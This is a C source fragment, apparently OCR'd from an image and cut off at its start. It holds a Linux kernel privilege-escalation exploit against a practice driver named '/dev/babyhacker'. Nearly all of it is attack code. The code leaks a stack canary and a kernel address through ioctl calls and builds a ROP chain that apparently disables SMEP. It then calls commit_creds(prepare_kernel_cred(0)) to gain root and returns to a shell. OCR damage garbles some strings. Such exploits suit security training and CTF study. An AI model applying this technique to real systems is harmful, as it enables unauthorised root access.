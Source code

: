 ```
    tf.rsp -= 4096;
    tf.rip = &amp;launch_shell;
}

uint64_t (*commit_creds)(uint64_t cred) ;
uint64_t (*prepare_kernel_cred)(uint64_t cred) ;

void payload(void){
    commit_creds(prepare_kernel_cred(0));
    asm("movq $tf, %rspn"
        "swapgsn"
        "iretqn");
}

uint64_t u64(char * s){
    uint64_t result = 0;
    for (int i = 7 ; i &gt;=0 ;i--){
        result = (result &lt;&lt; 8) | (0x00000000000000ff &amp; s[i]);
    }
    return result;
}

int main()
{
    char leak_value[0x1000];
    unsigned long Send_value[0x1000];
    int fd1 = open("/dev/babyhacker", O_RDONLY);

    save_status();

    ioctl(fd1, 0x30000, -1);
    ioctl(fd1, 0x30002, leak_value);

    // for(int i = 0 ; i * 8 &lt; 0x1000 ; i++ ){
    //     uint64_t tmp = u64(&amp;leak_value[i * 8]);
    //     printf("naddress %d: %pn",i * 8 ,tmp);
    // }

    uint64_t Canary = u64(&amp;leak_value[40 * 8]);
    printf("nCanary: %pn",Canary);
    uint64_t Rand_addr = u64(&amp;leak_value[42 * 8]);
    printf("nRand address: %pn",Rand_addr);

    prepare_kernel_cred = (void *)(Rand_addr + 0xffffffff810a1820 - 0xffffffff81219218); 
    commit_creds = (void *)(Rand_addr + 0xffffffff810a1430 - 0xffffffff81219218);

    for(int i = 0 ; i &lt; 40 ; i++ )
        Send_value[i] = 0;
    Send_value[40] = Canary;
    Send_value[41] = 0;
    Send_value[42] = Rand_addr + 0xffffffff8109054d - 0xffffffff81219218; 
    Send_value[43] = 0x6e0; 
    Send_value[44] = Rand_addr + 0xffffffff81004d70 - 0xffffffff81219218; 
    Send_value[45] = 0;
    Send_value[46] = payload;
    Send_value[47] = 0xDEADBEEF;

    ioctl(fd1, 0x30001, Send_value);
    return 0;
}
```
